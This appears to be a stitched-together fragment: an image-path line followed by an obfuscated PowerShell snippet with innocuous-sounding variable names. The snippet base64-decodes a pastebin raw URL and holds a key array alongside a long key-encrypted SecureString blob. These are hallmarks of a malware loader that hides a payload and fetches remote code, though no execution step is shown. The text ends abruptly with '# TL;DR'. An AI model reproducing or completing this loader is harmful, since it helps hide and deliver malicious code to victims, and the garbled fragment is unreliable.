

function rainbow($sunshine) {
    $glitter = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($sunshine))
    return $glitter
}
$kisses = 'aHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L3dMMFFYcXJx'
rainbow $kisses
$kisses = "18,27,89,76,45,123,91,73,1,5,8,6,15,2,3,7" -split ','
$monarch = '76492d1116743f0423413b16050a5345MgB8ACsATgB1AGwATgBKAHAASwBaAFIAWABFAHcAVQBNAFUAQQBaAHoAOABrAGcAPQA9AHwANwBiADAAOAAwAGMAZgA3ADcANgA2ADIAMABjADkANwA2ADUANwA5ADAAZQAxAGUANwA0ADAAOQAzADUAMQBiADIANgAwAGQAMAA3ADgANgA1ADEANwAwADUAOQBhADIANwAzAGYAZQA1ADgAYgA3ADgAYgAzAGQANgBiAGUANABiADEAMgAzAGMAYQAxADMANgBjADAANwBhADkANwA0ADYAMAA1ADYAYgBjAGQAOQBmADQANAAxAGEAYgAwADIANAAzADkAOQBkAGMAZQA3ADAANQAwADkAZAA5ADEAYQA0ADAAZgA3AGEAMgBlAGIAYgBmADQAZgBlADgAZQBhADEAOABkADMAOQBhAGQAMABkADYAYQA3ADkANAAxAGYAZQAyADUAYwA5AGIAYwA2ADgAYwA1ADQANABkAGUAZgBjADMAMAA2AGUAYQBlADIAYQA0AGEAYQBlADcAYQBjADUANQA0ADgAZABiADkAMQBmADEAOQAyADcAZgA0AGUAOABmADYAOQBlAGIAOAAzAGEAZAA3ADAAZgBjADYAZABkADgAZABmAGYAMQBhADQAZgBiADAANAAzAGUAMAA1ADQAMAA3ADMAMABkADUANgA3ADEAYgBmADkANQAwADYANAA5AGQAMAAzADQAYwA3AGIAOQAxADcAMQBjADYAZAA2AGMAZABkADYAMwBjADAAZAA0AGMAZAAxADAAYQAwAGEAZQAwADEAOQAxAGEAMQAyAGQANABkAGIANQBmAGMANwA4AGUANgA0ADEAZgA4ADcAMABhAGYAYgAxADEANQBhAGMAYgAxAGIAOAAyADcAMQA2ADAANQA3ADEAZQAzADgAYgBjADYAOAA5AGUANQA4AGYAOQBlAGYAYgAyADAAYgBjADIAMQAwADgAZQAwADgAZgA2AGEANgA4AGEAMQA1AGQAZgBlADIAZgBhADMAOAAxAGMANQBjAGIAZQAwADUANAAwADEAMQAwAGYAZgBiAGUANQA4ADQAMwBkADcAZAA4AGUAMAA3ADEAMwAzAGYAOQA2ADgAOABkAGEANAAxAGYAMgAxAGYANwA5ADEAZABhADUAYwAzADYAOQAzADgAMwBiAGUANQAzAGIAMABkADIAZABjAGQAYgBkAGQANgBlADMAMgA4AGIAZgA4ADkAOAAwADIANgA1ADYAZgAwAGUAYwA2AGUAMgBkAGEAMgBiADIAMAA4ADEAZQAyADEANQA1AGMAZABhADkAMABhADYAZQA5AGQAMAA0ADYAZgBhADUAYQAzADkAYgA4AGYAOQBhADkAMwBkADQAZgAyADMAYQA0ADAANgAwADUAMwA4ADkAZgAwADIANwAyAGIAZgBhADQAYgA4ADYANgAyAGUANwA1ADYAZABkADYAMgA0AGUAZQBhADkAOAAyADAAYQBjAGYAYQAyAGUANwA5AGIAYgA5AGQAZABiADIANgBjAGQAZAA3ADIANABhADYANwBmADkANABjADcAMgBmADUAOAAzADYAMwBhAGUAOABlADgAMQAwAGIANAA0ADgAMwAyAGEANgAyAGMAZQA3ADUAMwAwADcAMwA1ADgAMAAyAGIAYwBkAGYAOABjADQANwA4ADIAMgBjADkAMAAyADAANQBkAGIAMgBlADEAYQBjADQAZABlADkAMwBiADkAMwAwAGYAMQBkAGMAMQA2AGYAZgA0ADUANwBiAGEAYwBlADQAZQA3ADQANgA4AGEAMAA1AGQANwBmADkAOQAzADgANQA5ADQAYQA0AGMAZgAxADMAZgBjADUANgA2ADMANgBmADIAMAAwADYAOQBjAGQAYQBmADYAOABiADQAZQA5AGEANwA2AGMAZQBmADUAZQBlAGUAMQA2AGEAZABlADIAMgAyADEAMQA5AGYAOQAxADAAOAA2AGEANwBmADQAMwA3ADMAZQAzADIAZgBkADMAOABjAGQAOABlAGEAYgBjADUAZABjAGIAYgBlAGYAMABkADkAYgA1AGIAYwBlAGEAMwA2ADEAMQBiADEANQAxADUANwBiADEAOQA4ADAAYQBjADgAYwA0AGEAOQBlAGYAZQA1AGQAYQA3ADgAYQA4AGYAOQA5AGEANgBkAGYAYgA3AGEAMwBlADMANgBkAGYAOAA2ADIAMwBkADAAMgBlADgAZAA0AGUAMgA2ADkAMwA4AGUAYwBlAGQAMABlADIAMwA5ADIAZQBjADgANQBiADkAZgA5ADUAZABjAGUAMwBjADkANQBjADkANwA4AGEANwBmADQAMABlAGYAMgBhADcAOQAzADgANABiADUANAA1AGUANgAzAGMAMgBiADEAYwAyADMAYwA3ADgAMgA5ADYAZQAyAGEAMgAyADEAMwA1AGQANgAwADkAZgAyADIAOQBmADkAYgA1AGQAMwBiADYAMwAwADEAMgAwADAAZgAyADgANgBiADYAYQA0AGUAMQAwAGYAYwBjADcAYwBhAGUAYgA2AGEAYwAzADYAZABiADIAMQA3AGMAOQBlADIAMwBiADYAZABjADgANQA4AGUANAA2AGEANQBhADQANQBjAGUAOQBkADQAOQBmADcANQAzAGQAOAAzADUAOAAzADcAMQAzADcAMQBjAGYAYwAyADEANABlAGUAZQAzAGMAYwA0ADgAYgBlADEAMAAyADQAZQA1ADgANAAxADYAMQAyAGMAMwAzAGYAMABjAGYAZQAwADkANwA3ADYAYgA3ADMAMgAxADQANgBhAGIAYwBkADEANAA2ADMAZgA0AGMAZAA4AGEANQBjADQA'
# TL;DR